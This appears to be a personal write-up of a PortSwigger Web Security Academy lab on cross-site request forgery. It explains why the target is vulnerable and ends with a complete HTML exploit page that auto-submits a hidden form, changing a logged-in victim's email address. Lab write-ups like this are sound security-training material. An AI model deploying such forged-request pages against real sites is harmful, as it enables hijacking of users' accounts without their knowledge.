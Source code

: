 ```yaml
---
title: CSRF vulnerability with no defenses
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/lab-no-defenses/">
1. CSRF vulnerability with no defenses</a>

Cross-site request forgery - we trick a user into making a request to a server
that alters the state for their identity. In the case of this lab, CSRF is
enabled by the fact that the target web app API doesn't require any further
authentication beyond the user's session cookie. The parameter change email
addresses is known by the attacker, so a POST request can be forged.

We host a server that will respond with malicious HTML from a /GET request. The
exploit server will forge a POST request to the target web app, changing the
email address of the user currently logged in - this occurs because the browser
will reuse cookies for the target domain.

Solution:

```html
<html>
  <body>
    <form
      action="https://1.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
    </form>
    <script>
      history.pushState("", "", "/")
      document.forms[0].submit()
    </script>
  </body>
</html>
```

